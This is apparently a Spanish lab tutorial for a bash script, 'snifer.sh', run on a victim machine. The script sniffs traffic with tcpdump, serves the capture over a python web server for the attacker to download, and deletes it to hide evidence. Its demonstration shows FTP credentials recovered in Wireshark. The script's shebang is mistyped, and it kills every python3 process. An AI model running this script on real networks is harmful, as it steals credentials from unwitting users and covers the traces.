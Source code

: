 Creamos un ``script`` para interceptar el ``tráfico de la red`` y que lo envíe por un ``servidor web`` a la máquina atacante

Código explicado:

```Bash
#/bin/bash

#Creamos las variables
interfaz="eth0"
paquete="captura.pcap"
puerto_http="80"

#Con tcpdump capturamos el tráfico de la red y lo dejamos en segundo plano
tcpdump -i $interfaz -w $paquete &

#Dejamos un descanso de 5 segundos para evitar errores
sleep 5

#Levantamos un servidor en el puerto 80 y lo dejamos en segundo plano
python3 -m http.server $puerto_http &

#Ponemos una duración de 60 segundos para que sigan interceptando durante ese tiempo
sleep 60

#Creamos una variable para obtener el PID de los procesos que se abren con tcpdump y python
proceso_tcpdump=$(pgrep tcpdump)
proceso_python=$(pgrep python3)

#Paramos los procesos
kill $proceso_tcpdump
kill $proceso_python

echo "La captura se realizó correctamente y se envió el archivo '.pcap' por el servidor web"

#Borramos el archivo para no dejar pruebas en la máquina víctima 
rm $paquete
```

![Pasted image 20240701104700](https://github.com/user-attachments/assets/3a2192d1-881b-4d24-aa20-a76cf6c557c9)

Código limpio:

```Bash
#/bin/bash

interfaz="eth0"
paquete="captura.pcap"
puerto_http="80"

tcpdump -i $interfaz -w $paquete &

sleep 5

python3 -m http.server $puerto_http &

sleep 60

proceso_tcpdump=$(pgrep tcpdump)
proceso_python=$(pgrep python3)

kill $proceso_tcpdump
kill $proceso_python

echo "La captura se realizó correctamente y se envió el archivo '.pcap' por el servidor web"

rm $paquete
```

![Pasted image 20240701104825](https://github.com/user-attachments/assets/1777f016-e4da-4974-8b15-bd52dd417c46)

Le damos permisos:

```Bash
chmod +x snifer.sh
```

![Pasted image 20240701102654](https://github.com/user-attachments/assets/20ca7e53-472a-4d25-9eb0-b24bcc25f9ca)

Ejecutamos el ``script``:

```Bash
./snifer.sh
```

![Pasted image 20240701103529](https://github.com/user-attachments/assets/29ec91f3-bc1a-41ab-9d95-d8996613cfb6)

Iniciamos una sesión de ``FTP``:

```Bash
ftp 10.0.2.50
```

![Pasted image 20240701103437](https://github.com/user-attachments/assets/67c5d4ea-2d82-4d8c-a295-c8066e6c12a8)

Nos vamos a máquina atacante y nos ``descargamos`` el paquete del ``servidor web``:

![Pasted image 20240701103928](https://github.com/user-attachments/assets/e6158bf3-3d7e-407a-ba3b-c01488d8268c)

Ya terminó el ``script``:

![Pasted image 20240701104430](https://github.com/user-attachments/assets/f40eb6c7-72d1-4463-8d65-024e1b6eeb65)

Abrimos el paquete descargador con **wireshark**:

```Bash
wireshark captura.pcap
```

![Pasted image 20240701103411](https://github.com/user-attachments/assets/0de0f006-84e8-4c57-bcb4-c3373018c972)

Vemos que ``capturó`` el ``usuario`` y la ``contraseña``:

![Pasted image 20240701103325](https://github.com/user-attachments/assets/d866bf4d-23fb-413d-ab11-b608e4ccb031)

